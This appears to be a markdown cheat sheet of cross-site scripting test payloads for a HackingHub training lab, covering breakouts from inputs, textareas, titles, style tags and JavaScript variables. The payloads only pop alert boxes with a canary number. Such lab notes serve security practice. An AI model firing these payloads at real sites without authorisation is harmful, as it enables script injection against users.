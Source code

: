 # hackinghub  

## xss  
[https://app.hackinghub.io/hubs/nbbc-xss](https://app.hackinghub.io/hubs/nbbc-xss)  

### basic xss  

The number `19628397001` in the examples below is just a random number that can be used as a [canary](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/settings/canary) to search proxy history for the value.  

Try to start with simple payload like `<h1>19628397001` to see what happens.  

```
<script>alert(19628397001)</script>
<script>alert(19628397001)
<script>alert(19628397001);//</script>
<script>confirm(19628397001);//</script>
<img src=xxxxx onmouseover=alert(19628397001)>
<img src=xxxxx onerror=alert(19628397001)>
<a href=javascript:alert(19628397001)>xsstest</a>
<a href=javascript:alert(19628397001)>xsstest
<iframe src=javascript:alert(19628397001)>
<object data="data:text/html,<script>alert(19628397001)</script>"></object>
<script src="data:text/javascript,alert(19628397001)"></object>
</p><h1><u/onmouseover=alert(1)>19628397001
```  

### contexts  

#### input example  

value inside an input:  
`<input value="19628397001">`  

try to break out with a payload like...    
```
test"><script>alert(19628397001)</script>
```  

or use an event like this...  
```
test" onmouseover=alert(19628397001);//
```  

#### textarea example   

value inside a textarea:  
`<textarea>19628397001</textarea>`  

try to break out with a payload like...  
```
test</textarea><img/src=x onerror=alert(19628397001)>
```  

#### title example  

value inside a title:  
`<title>Welcome, 19628397001</title>`  

try to break out with a payload like...  
```
test</title><img/src=x onerror=alert(19628397001)>
```  

#### style tag in head section  
expected value format `#FFFFFF`, but example below input value (`19628397001`):  
```HTML
<head>
        <style>
                body {
                        background-color: 19628397001;
                }
        </style>
</head>
```  

try to break out with a payload like...  
```
#FFFFFF;}</style><script>alert(19628397001)</script><!--
```

#### javascript variables  

value `19628397001` instead a javascript variable:  
```
<script>
var name = '19628397001';
$('span#name').html( name );
</script>
```

try to break out with a payload like...  
```
';alert(19628397001);//
```

### content types  

See a server response header with `Content-Type: text/html`, but the content returned is `json` (i.e. an API response)?  

Go to that endpoint in your web browser directly and test for XSS there.  


